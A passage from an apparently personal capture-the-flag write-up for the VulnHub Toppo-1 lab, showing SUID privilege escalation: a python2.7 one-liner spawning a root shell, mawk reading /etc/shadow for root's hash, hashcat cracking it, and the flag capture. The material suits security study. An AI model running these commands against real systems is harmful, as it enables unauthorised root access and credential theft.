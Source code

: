 	- `mawk` also has a [GTFOBins](https://gtfobins.github.io/gtfobins/mawk/) entry
2. Exploit `python2.7` to spawn a root shell
	```
	/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```
	![](Pasted%20image%2020220129020551.png)
3. Exploit `mawk` to read root's hash
	```
	LFILE=/etc/shadow
	ted@Toppo:~$ /usr/bin/mawk '//' "$LFILE" | grep root | cut -d ":" -f2
	$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0
	```
4. Crack hash
	```
	┌──(root💀kali)-[~/vulnHub/Toppo-1]
	└─# hashcat -a 0 -m 1800 '$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0' /usr/share/wordlists/rockyou.txt --show
	$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0:test123
	```
	- root:test123	
5. Root Flag
	```
	# cd /root
	# ls 
	flag.txt
	# cat f	
	cat: f: No such file or directory
	# cat flag.txt
	_________                                  
	|  _   _  |                                 
	|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
		| |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
	   _| |_ | \__. | | \__/ | | \__/ || \__. | 
	  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
					 [__|     [__|              




	Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
	```



---
Tags: #linux-priv-esc/suid/gtfo-bin 

---

